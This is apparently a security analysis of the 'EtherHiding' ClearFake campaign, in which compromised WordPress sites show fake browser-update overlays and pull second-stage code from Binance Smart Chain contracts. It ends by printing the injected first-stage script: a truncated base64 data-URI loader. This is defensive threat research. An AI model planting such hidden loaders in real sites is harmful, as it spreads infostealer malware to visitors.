 ## "EtherHiding" - Hiding Web2 Malicious Code in Web3 Smart Contracts

"EtherHiding" presents a novel twist on serving malicious code by utilizing Binance's Smart Chain contracts to host parts of a malicious code chain in what is the next level of Bullet-Proof Hosting.

Over the last two months, leveraging a vast array of hijacked WordPress sites, this threat actor has misled users into downloading malicious fake "browser updates". While their initial method of hosting code on abused Cloudflare Worker hosts was taken down, they've quickly pivoted to take advantage of the decentralized, anonymous, and public nature of blockchain. This campaign is up and harder than ever to detect and take down.

Dive into our analysis to grasp this game-changing technique that might just transcend standard phishing and malware campaigns.

### The Evolving Fake Browser Update Campaign

In the last 2 months or so, we have been facing yet another "fake-update" malware propagation campaign. In the attack flow, a site is defaced with a very believable overlay demanding a browser update before the site can be accessed. The fake "update" turns out to be vicious infostealer malware like RedLine, Amadey, or Lumma.

<p align="center"><img src="https://github.com/chartingshow/crypto-firewall/blob/master/assets/images/ether-hiding/1.jpg" alt="EtherHiding"></p>
<p align="center"><strong>The compromised Softoniclabs WordPress-based site, defaced to propagate malware</strong></p>

This campaign, named "ClearFake", identified by Randy McEoin, begins its attack on compromised WordPress sites where attackers embed a concealed JS code. This initial "bridgehead" code is injected into article pages and retrieves a second-stage payload from a server controlled by the attackers, which then carries out the rest of the site defacement.

<p align="center"><img src="https://github.com/chartingshow/crypto-firewall/blob/master/assets/images/ether-hiding/2.jpg" alt="EtherHiding"></p>

Using this method, the attacker can remotely and instantly modify the infection process and display any message they want. It can change tactics, update blocked domains, and switch out detected payloads without re-accessing the WordPress sites. In the case of 'ClearFake', the second-stage code was hosted on Cloudflare Workers. This was effective until CloudFlare blocked those accounts, potentially halting the entire campaign.

Yet, in this evolution of "ClearFake", we see that threat actors have introduced a novel method of hosting malicious code both anonymously and without any limitations - **a real "Bullet Proof" hosting facilitated by the Blockchain.**

### No Cryptoscams Here, So Why Binance?

The new infection process, at first glance, is the same as before - using the same domains and IP addresses, yet on the first entry of the compromised WordPress site we see new **unfamiliar network traffic directed to Binance-controlled servers**. What does Binance, a cryptocurrency exchange, have to do with it all? Well, let's examine the new variant of the first stage code:

```html
<script src="https://cdn.ethers.io/lib/ethers-5.2.umd.min.js" type="application/javascript"></script>
<script src="data:text/javascript;base64,YXN5bmMgZnVuY3Rpb24gbG9hZCgpe2xldCBwcm92aWRlcj1uZXcgZXRoZXJzLnByb3ZpZGVycy5Kc29uUnBjUHJvdmlkZXIoImh0dHBzOi8vYnNjLWRhdGFzZWVkMS5iaW5hbmNlLm9yZy8iKSxzaWduZXI9cHJvd[......]b2FkOw=="></script>
```
